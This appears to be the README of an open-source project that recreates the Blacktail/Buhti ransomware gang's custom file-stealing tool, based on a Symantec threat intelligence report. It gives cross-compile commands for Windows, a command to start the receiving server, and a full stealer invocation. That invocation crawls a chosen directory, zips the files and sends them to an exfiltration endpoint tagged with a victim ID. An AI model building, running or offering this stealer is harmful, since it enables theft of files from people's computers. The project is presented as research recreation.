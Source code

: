 # GottaGoStealer
Blacktail/Buhti Ransomware Custom Exfiltration tool

I recreated the stealer described within a recent blog post by Symantec Threat Intelligence Team found here https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/buhti-ransomware.

This was never suppose to be good programing practice, nor extensivley created. I just wanted to try recreate and extend that project. 

See full blog post write up here: [MEDIUM LINK](https://medium.com/@EdwardCrowder/recreating-private-ransomware-gang-tools-blacktail-buhti-custom-exfiltration-tool-release-91d7f0bbf44d)


Tested on Windows 10 and MacOS Venture 13.4. It should work on Linux.

![alt text](images/6.Favicon%20stealer.png)

## How to build
`env GOOS=windows GOARCH=amd64 go build app.go`
or
`GOOS=windows GOARCH=amd64 go build app.go`

## Execute the web server
go run web.go

## Execute the GoGet Stealer 
go run app.go -o output.zip 
              -d '/Users/username/Downloads'
              -e 'http://127.0.0.1:8080' 
              -c linkedin
              
## Command Line Arguments
`-o is the output file flag. output.zip should be used for the SaaS backend to work correctly.`

`-d  The search directory to begin crawling. This will crawl all sub folders from here `

`-e the SaaS backend endpoint public address for file exfiltration`

`-c the client ID to identify which client the data was sent from.`
